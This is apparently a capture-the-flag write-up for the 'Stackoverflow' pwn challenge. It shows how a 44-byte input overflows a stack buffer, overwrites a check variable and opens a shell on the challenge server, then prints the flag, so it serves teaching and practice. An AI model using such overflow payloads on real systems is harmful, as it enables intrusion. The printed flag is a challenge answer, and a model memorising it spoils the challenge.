

# Stackoverflow

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|50|Pwn|413|

### Description

```
Welcome to Stack Overflow! Get answers to all your programming questions right here!
```

### Attachments

* [stackoverflow](stackoverflow)
* nc chal.imaginaryctf.org 42001

We are given a NetCat-Connection and an executable. Let's first get a look at nc:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
green
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```
The programm asks for a color, answeres a short text and throws an error.
Let's get a look at the executable to find out what it does. Therefore we can use ghidra to analyze the file:



Ghidra shows us a `main` function. Here we see that the program compares `local_10` with `0x69637466` ("ictf") while our input gets written into `local_38`. If the comparison  returns true it will execute `/bin/sh`, so we have to trigger that.

`local_38` is 40 bytes big and is stored infront of the `local_10` on the stack. So we just put 11 * "ftci" (= 44 Bytes) and it will fill `local_38` until it overflows 1 "ftci" into local_10. It has to be reverted to "ftci" as it has to be stored in little endian.

Doing this we get the following output:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
ftciftciftciftciftciftciftciftciftciftciftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
```
As we know from the disassembly `/bin/bash` is executed and we can interact with the shell:

```
[...]
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
```
There is our flag:
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
